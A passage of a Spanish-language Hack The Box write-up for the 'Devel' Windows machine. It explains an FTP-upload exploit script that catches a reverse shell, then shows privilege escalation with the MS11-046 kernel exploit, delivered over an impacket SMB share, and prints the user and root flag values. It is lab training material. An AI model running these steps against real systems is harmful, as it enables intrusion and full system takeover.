19. `ftp.storbinary("STOR %s" % malicious_file, open(malicious_file, "rb"))`: Aquí se sube cada archivo en la lista `malicious_files` al servidor FTP. La función `storbinary` realiza la operación de almacenamiento binario, utilizando el nombre de archivo correspondiente en el servidor.

20. `def makeRequest():`: Se define una función llamada `makeRequest`, que será responsable de realizar solicitudes HTTP al servidor web.

21. `s = requests.session()`: Se crea una instancia de sesión HTTP utilizando `requests`.

22. `r = s.get(console_url)`: Se realiza una solicitud GET al servidor web, específicamente a la URL almacenada en la variable `console_url`. La respuesta se almacena en la variable `r`.

23. `post_data = { ... }`: Se crea un diccionario llamado `post_data` que contiene datos que se enviarán mediante una solicitud POST al servidor web. Los datos incluyen VIEWSTATE, EVENTVALIDATION, txtArg y testing.

24. `r = s.post(console_url, data=post_data)`: Se realiza una solicitud POST al servidor web utilizando la URL almacenada en `console_url` y enviando los datos almacenados en `post_data`. Esto parece ser parte de la explotación de una vulnerabilidad en el servidor web.

25. `if __name__ == '__main__':`: Esta línea verifica si el script se está ejecutando como un programa principal.

26. `uploadFiles()`: Se llama a la función `uploadFiles()`, que subirá los archivos maliciosos al servidor FTP.

27. `try: ... except Exception as e: ...`: Se intenta realizar la siguiente sección de código y, si ocurre una excepción, se captura y se almacena en la variable `e`.

28. `threading.Thread(target=makeRequest, args=()).start()`: Se crea un hilo (thread) que ejecutará la función `makeRequest()` en paralelo con el hilo principal. Esto permite realizar la solicitud HTTP mientras se espera la conexión de un cliente.

29. `shell = listen(lport, timeout=20).wait_for_connection()`: Aquí se llama a la función `listen` del módulo `pwn` para escuchar conexiones en el puerto almacenado en `lport` (puerto 443). La función espera hasta que se establezca una conexión o hasta que pase un tiempo máximo de 20 segundos.

30. `shell.interactive()`: Una vez que se establece la conexión, se inicia una sesión interactiva que permitirá interactuar con el cliente conectado.

Este código es un script que explota una vulnerabilidad en un servidor web ubicado en la dirección IP 10.10.10.5. Sube archivos maliciosos al servidor a través de FTP y, a continuación, realiza una solicitud HTTP que aprovecha la vulnerabilidad para ejecutar comandos en el servidor. Luego, espera una conexión entrante en el puerto 443 y, una vez establecida la conexión, inicia una sesión interactiva con el cliente conectado.

<h3 style="text-align:center" id="escalada-de-privilegios">ESCALADA DE PRIVILEGIOS</h3><hr>

- Ahora vamos a convertirnos en usuario administrador
- Nos vamos a la ruta Users `cd C:\Users` y luego vemos los archivos con `dir`

```ruby
C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\Users

18/03/2017  02:16     <DIR>          .
18/03/2017  02:16     <DIR>          ..
18/03/2017  02:16     <DIR>          Administrator
17/03/2017  05:17     <DIR>          babis
18/03/2017  02:06     <DIR>          Classic .NET AppPool
14/07/2009  10:20     <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   4.506.624.000 bytes free
```
Existe un usuario babis, pero no podemos ingresar, nos obliga a ser usuario administrador

```ruby
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```
Vemos que tenemos algunos privilegios como el SeImpersonatePrivilege y este es vulnerable, pero en este caso lo haremos de otra manera.

si ejecutamos un `systeminfo` : 

```ruby
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 
System Boot Time:          24/7/2023, 2:59:33 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.287 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.359 MB
Virtual Memory: In Use:    782 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::5d5d:cfc7:24a3:a440
                                 [04]: dead:beef::58c0:f1cf:abc6:bb9e

```

- Vemos que es un Windows7  con OS Version:  6.1.7600 N/A Build 7600
Si buscamos en la red que vulnerabilidades tiene esta versión vemos que existe un Local Privilege Escalation llamado MS11-046, ahora buscamos un exploit en gibhub y lo encontramos en : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046

- Nos descargamos el .exe y lo subimos a la máquina victima.

```ruby
smbserver.py smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```
Con smbserver  creamos un recurso compartido a nivel de red identificado como smbFolder y que está sincronizado con la ruta absoluta actual de trabajo.

- En la máquina victima nos dirigimos a `cd C:\Windows\Temp` nos creamos un directorio que lo llamaremos privesc nos metemos alli para guardar el .exe
`cd privesc` 

```ruby
C:\Windows\Temp\Privesc>copy \\10.10.14.168\smbFolder\ms11-046.exe ms11-046.exe
```
Nos copiamos el .exe con este comando
 

```ruby
.\ms11-046.exe

whoami
whoami
nt authority\system

c:\Windows\System32>
```
Ya estamos como administrador
- si vamos a la Ruta de Users y entramos en el usuario babis, ya tenemos acceso.

```ruby
cd babis

dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\Users\babis

17/03/2017  05:17     <DIR>          .
17/03/2017  05:17     <DIR>          ..
17/03/2017  05:17     <DIR>          Contacts
11/02/2022  04:54     <DIR>          Desktop
17/03/2017  05:17     <DIR>          Documents
17/03/2017  05:17     <DIR>          Downloads
17/03/2017  05:17     <DIR>          Favorites
17/03/2017  05:17     <DIR>          Links
17/03/2017  05:17     <DIR>          Music
17/03/2017  05:17     <DIR>          Pictures
17/03/2017  05:17     <DIR>          Saved Games
17/03/2017  05:17     <DIR>          Searches
17/03/2017  05:17     <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)   4.506.812.416 bytes free
```
<h3 style="text-align:center" id="flags">FLAGS</h3><hr>

- La flag la buscamos indicándole que busque de manera recursiva la string user.txt 

```ruby
dir /r /s user.txt
dir /r /s user.txt
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\Users\babis\Desktop

24/07/2023  03:00                 34 user.txt
               1 File(s)             34 bytes

     Total Files Listed:
               1 File(s)             34 bytes
               0 Dir(s)   4.506.812.416 bytes free
```

```ruby
type user.txt
3c37e8b34ca6f114448dd1b37384ca55
```
- Ahora buscamos la de root de la misma manera:

```ruby
dir /r /s root.txt
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\Users\Administrator\Desktop

24/07/2023  03:00                 34 root.txt
               1 File(s)             34 bytes

     Total Files Listed:
               1 File(s)             34 bytes
               0 Dir(s)   4.506.812.416 bytes free
```

```ruby
type C:\Users\Administrator\Desktop\root.txt
3dfbb340be9fb930b5e89ed88ff33d30
```
<h3 style="text-align:center" id="autores-y-referencias">AUTORES y REFERENCIAS</h3><hr>

Autor del write up: John Osorio (Balthael) <a href="https://app.hackthebox.com/profile/1366059" target="_blank">HTB</a>. Si quieres contactarme por cualquier motivo lo podéis hacer a través 
de <a href="https://www.instagram.com/joh_sb/" target="_blank">Instagram</a>.

Autor de la máquina:  <em>ch4p</em>, muchas gracias por la creación de Devel, la disfrute mucho. <a href="https://app.hackthebox.com/users/1" target="_blank">HTB</a>.
